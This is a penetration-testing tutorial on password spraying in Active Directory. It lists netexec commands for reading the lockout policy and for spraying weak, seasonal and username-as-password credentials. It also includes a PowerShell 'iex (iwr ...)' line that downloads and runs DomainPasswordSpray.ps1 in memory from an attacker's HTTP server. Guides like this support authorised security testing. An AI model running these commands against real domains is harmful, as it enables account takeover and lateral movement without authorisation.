






# 1.5 Password Spray

Password spraying is an authentication attack technique where an attacker attempts to access many user accounts using a few commonly used passwords, rather than brute-forcing one account with many passwords. This helps avoid account lockouts and reduces the chance of detection, making it effective against organizations with weak password policies.

***

## Get Password Policy Info

Before performing a Password Spraying attack, it is important to identify the domain password policy. Understanding account lockout thresholds and password complexity requirements helps avoid triggering account lockouts or security alerts during the attack.

The following command can be used to retrieve the password policy from the target domain using valid credentials:

```bash
nxc smb <DOMAIN> -u <USERNAME> -p '<PASSWORD>' --pass-pol
```

The output provides important information such as password length requirements, lockout thresholds, and lockout duration. This information helps determine how aggressively password spraying can be performed safely.

<figure><figcaption></figcaption></figure>

***

## Performing Password Spraying

After identifying valid domain users during the enumeration phase, a Password Spraying attack can be performed by testing a commonly used password against multiple accounts.

The following command attempts authentication against all usernames listed in the provided file using the password `P@ssw0rd!`:

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p 'P@ssw0rd!' --continue-on-success
```

The `--continue-on-success` option ensures that the attack continues even after valid credentials are discovered. If multiple users share the same weak password, several successful logins may be identified during the attack.

<figure><figcaption></figcaption></figure>

And we see that the many users uses the same password.

***

Identifying Users Using Their Username as Password\
In some environments, users configure weak passwords identical to their usernames. This common misconfiguration can also be tested during a Password Spraying assessment.

The following command attempts to authenticate each user using their username as the password:

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p <USERNAME-LISTS> --continue-on-success
```

When working with large username lists, the output can become difficult to analyze because failed authentication attempts generate excessive noise.&#x20;

<figure><figcaption></figcaption></figure>

To simplify result analysis, the output can be saved into a file and filtered to display only successful logins.

The following command saves the attack output into a file:

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p <USERNAME-LISTS> --continue-on-success | tee -a <OUTFILE>
```

Successful authentication attempts can then be filtered using:

```bash
cat <OUTFILE> | grep +
```

In the output:

```bash
-  → Username and password are incorrect
+  → Username and password are correct and authentication succeeded
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Password Spraying attacks can also be performed using seasonal or commonly used passwords such as:

```bash
nxc smb <DOMAIN> -u <USERNAME-LISTS> -p 'Summer2025!' --continue-on-success | tee -a user-as-pass.txt
```

Weak passwords following predictable patterns are frequently encountered in enterprise environments, making Password Spraying an effective technique during Active Directory assessments.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

## Password Spraying from Windows PowerShell

Password Spraying can also be performed directly from a Windows system using PowerShell-based tools such as [`DomainPasswordSpray.ps1`](https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/refs/heads/master/DomainPasswordSpray.ps1). This technique is commonly used during internal penetration tests when operating from a compromised Windows host.

First, download the PowerShell script on the local machine:

<figure><figcaption></figcaption></figure>

Then run the `wget` command to download:

```bash
wget https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/refs/heads/master/DomainPasswordSpray.ps1
```

<figure><figcaption></figcaption></figure>

Next, start a simple Python HTTP server to transfer the script to the target system:

```bash
python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

On the Windows target system, the following PowerShell command can be used to download and execute the script directly in memory:

```powershell
iex (iwr -UserBasicParsing http://<PAYTHON_SERVER_IP>/DomainPasswordSpray.ps1)
```

> The PowerShell console should be executed with administrative privileges to avoid execution restrictions and ensure proper functionality.

User lists can also be transferred to the target system:

```ps1
wget http://<PYTHONSERVERIP>/users.txt -o users.txt
type users.txt
```

<figure><figcaption></figcaption></figure>

Once the script and user list are available on the target system, Password Spraying can be performed using the following command:

```ps1
Invoke-DomainPasswordSpray -Password <PASSWORD> -UserList .\user.txt
```

<figure><figcaption></figcaption></figure>

> **Tip:** Press the `<TAB>` key after typing `-` to view available options for the script.

To test whether users are using their usernames as passwords:

```ps1
Invoke-DomainPasswordSpray -UsernameAsPassword -UserList .\user.txt
```

<figure><figcaption></figcaption></figure>

If successful credentials are identified, they can be used for further enumeration, lateral movement, privilege escalation, or access to additional domain resources within the Active Directory environment.
